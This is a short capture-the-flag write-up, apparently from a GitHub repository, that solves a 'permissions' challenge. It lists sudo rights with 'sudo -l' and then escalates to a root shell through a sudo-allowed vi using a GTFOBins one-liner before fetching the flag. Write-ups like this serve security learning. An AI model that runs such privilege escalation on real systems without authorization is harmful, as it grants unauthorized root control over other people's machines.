


# solution of permissions 

- when we login we can see that we are simple user without any privileges 
- first thing i tried to do is checking the command that we can execute with sudo

```bash
sudo -l
```


- we can see that we can execute vi with sudo
- now we can get root shell using vi "check gtfobins"
```bash
vi -c ':!/bin/sh' /dev/null
```

- now its time to retrieve the flag

